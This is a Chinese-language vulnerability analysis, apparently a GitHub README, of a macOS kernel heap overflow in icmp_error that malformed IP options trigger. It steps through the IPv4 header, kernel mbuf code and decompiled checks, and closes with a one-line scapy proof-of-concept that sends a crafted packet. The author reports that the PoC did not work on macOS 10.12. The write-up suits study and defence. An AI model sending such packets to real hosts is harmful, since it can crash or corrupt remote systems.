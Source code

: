 # 一个mac的数据包处理不当的漏洞

## 程序调用

首先程序调用

ip_input_process_list
的
ip_input
来处理ip数据包



#### **IP数据包结构**：



1-1.版本4位，表示版本号，目前最广泛的是4=B1000，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：

​       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）

​       延迟字段：1位，取值：0（正常）、1（期特低的延迟）

​       流量字段：1位，取值：0（正常）、1（期特高的流量）

​       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）

​       成本字段：1位，取值：0（正常）、1（期特最小成本）

​       保留字段：1位 ，未使用

1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：

​       保留段位(2)：1位，未使用

​       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）

​       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。



ip前面没有问题，问题在可选字段处理

ip_dooptions函数

如果数据出错就调用icmp_error函数

通过设置错误的长度来触发漏洞
## 漏洞分析

在icmo_error里面拷贝了数据包n
向一个固定大小的堆。

```
m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);

```


确认icmplen的长度

```
nlen = m_length(n);



icmpelen = max(tcphlen, min(icmp_datalen,
(oip->ip_len - oiphlen)));
}



通过这一段
th = (struct tcphdr *)(void *)((caddr_t)oip + oiphlen);

if (th != ((struct tcphdr *)P2ROUNDDOWN(th,
sizeof(u_int32_t))))
goto freeit;
tcphlen = th->th_off << 2;
tcphlen长度60
另一个为包裹总长度。




icmplen = min(oiphlen + icmpelen, nlen);
    oiphlen长度为ip结构长度28

```
计算后，这个玩意是不带l链路层的包裹长度88
```
m_getcl(int wait, int type, int flags)
{
struct mbuf *m;
int mcflags = MSLEEPF(wait);
int hdr = (flags & M_PKTHDR);

/* Is this due to a non-blocking retry?  If so, then try harder */
if (mcflags & MCR_NOSLEEP)
mcflags |= MCR_TRYHARD;

m = mcache_alloc(m_cache(MC_MBUF_CL), mcflags);
if (m != NULL) {
u_int16_t flag;
struct ext_ref *rfa;
void *cl;

VERIFY(m->m_type == MT_FREE && m->m_flags == M_EXT);
cl = m->m_ext.ext_buf;
rfa = m_get_rfa(m);

ASSERT(cl != NULL && rfa != NULL);
VERIFY(MBUF_IS_COMPOSITE(m) && m_get_ext_free(m) == NULL);

flag = MEXT_FLAGS(m);

MBUF_INIT(m, hdr, type);
MBUF_CL_INIT(m, cl, rfa, 1, flag);

mtype_stat_inc(type);
mtype_stat_dec(MT_FREE);
#if CONFIG_MACF_NET
if (hdr && mac_init_mbuf(m, wait) != 0) {
m_freem(m);
return (NULL);
}
#endif /* MAC_NET */
}
return (m);
}


#define    MBUF_INIT(m, pkthdr, type) {                    \
_MCHECK(m);                            \
(m)->m_next = (m)->m_nextpkt = NULL;                \
(m)->m_len = 0;                            \
(m)->m_type = type;                        \
if ((pkthdr) == 0) {                        \
(m)->m_data = (m)->m_dat;                \
(m)->m_flags = 0;                    \
} else {                            \
(m)->m_data = (m)->m_pktdat;                \
(m)->m_flags = M_PKTHDR;                \
MBUF_INIT_PKTHDR(m);                    \
}                                \
}

```
可以看到，实际上的data就是pktdat，长度87
写入87-8的地方



### poc

import scapy
from scapy.all import *
send(IP(dst="192.168.31.129",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))

### mac

    mac10.12系统上无法利用成功目前，
}
v21 = (unsigned __int64)&v7[v18];
result = v21 & 0xFFFFFFFFFFFFFFFCLL;
if ( v21 != (v21 & 0xFFFFFFFFFFFFFFFCLL) )
goto LABEL_64;
result = 4 * (unsigned int)(unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4);
if ( (unsigned int)result < 0x14 )
goto LABEL_64;
v14 = *((unsigned __int16 *)v7 + 1);
v22 = (unsigned __int16)(4 * (unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4));
v23 = (unsigned __int16)result + v10;
if ( v14 < v23 )
goto LABEL_64;

    这里验证了v21（也就是tcp的地址是不是四字对其）
    ip包本身是对其的，mac包不是，加在一起地址怎么可能对其，poc也跑不通
